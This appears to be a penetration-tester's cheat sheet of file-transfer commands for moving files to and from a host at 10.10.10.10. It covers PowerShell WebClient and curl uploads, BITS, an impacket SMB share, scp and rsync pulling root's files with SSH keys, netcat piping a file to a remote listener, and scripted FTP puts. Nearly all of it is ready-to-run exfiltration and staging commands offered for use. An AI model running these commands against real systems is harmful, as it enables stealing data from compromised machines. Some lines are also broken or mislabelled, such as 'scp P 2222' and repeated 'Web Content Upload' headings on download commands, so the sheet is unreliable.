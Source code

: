 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------

#### 

**Web Content Upload**
    
    $webClient.UploadFile('http://10.10.10.10/demo.txt', 'PUT', 'C:\temp\demo.txt')

**Web Content Upload**
    
    powershell.exe -c "curl.exe -T C:\temp\demo.txt http://10.10.10.10/demo.txt"

**Web Content Upload**
    
    Start-Process -FilePath "curl.exe" -ArgumentList "-T 'C:\temp\demo.txt' http://10.10.10.10/demo.txt" -NoNewWindow -Wait
------------------------------------------------------------------------------------------------------------------

</br>

USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Using PUT Method**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://10.10.10.10/demo.txt', 'PUT', 'C:\temp\demo.txt')"   

**Using POST Method**

    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"
------------------------------------------------------------------------------------------------------------------

</br>

USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password 123 . -smb2support


**SMB CLIENT -**

**To create authenticated session**

    net use \\10.10.10.10 /u:"user" "123"

**Web Content Upload**
    
    copy demo.txt \\10.10.10.10\share\  
------------------------------------------------------------------------------------------------------------------

</br>

USING SSH - 
------------------------------------------------------------------------------------------------------------------

**SCP-**

**Web Content Upload**
    
    scp user@10.10.10.10:/tmp/demo.txt /tmp/

**Wildcard**

    scp -vr root@10.10.10.10:/root/*.zip /tmp/demo/ 

**Custom Port**

    scp P 2222 -vr root@10.10.10.10:/root/*.zip /tmp/demo/ 

**SSH Key**

    scp -i /home/user/.ssh/id_rsa -vr root@10.10.10.10: /tmp/demo/ 

**RSYNC-**

**Web Content Upload**
    
    rsync -av root@10.10.10.10:/root/* /tmp/demo/

**Custom Port**

    rsync -av --port 2222 -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/

**SSH Key**

    rsync -av -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/
------------------------------------------------------------------------------------------------------------------

</br>

USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------

</br>

USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://10.10.10.10/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://10.10.10.10/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt' -Method 'PUT'"
------------------------------------------------------------------------------------------------------------------

</br>

USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**First, start listener on client with output redirection to file**
    
    nc.exe -nlvp 443 > demo.txt

**Then start server with input redirection from file**
    
    type demo.txt | nc.exe -v 10.10.10.10 443
------------------------------------------------------------------------------------------------------------------

</br>

USING FTP - 
------------------------------------------------------------------------------------------------------------------

**File Upload**

Replace "demo.txt" with desired file name
    
    echo open 10.10.10.10 21 > file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -A -v -n -s:file.txt

**One Liner**

    echo open 10.10.10.10 21 > file.txt && echo bin>> file.txt && echo put demo.txt>> file.txt && echo bye>> file.txt && ftp -A -v -n -s:file.txt

**Mannualy -**

    ftp
    open 10.10.10.10 2121
    put demo.txt

**FTP Authenticated**

Replace "demo.txt" with desired file name
    
    echo open 10.10.10.10 21 > file.txt
    echo user test>> file.txt
    echo test>> file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -v -n -s:file.txt

**Mannualy -**

    ftp
    open 10.10.10.10 2121
    put demo.txt
------------------------------------------------------------------------------------------------------------------
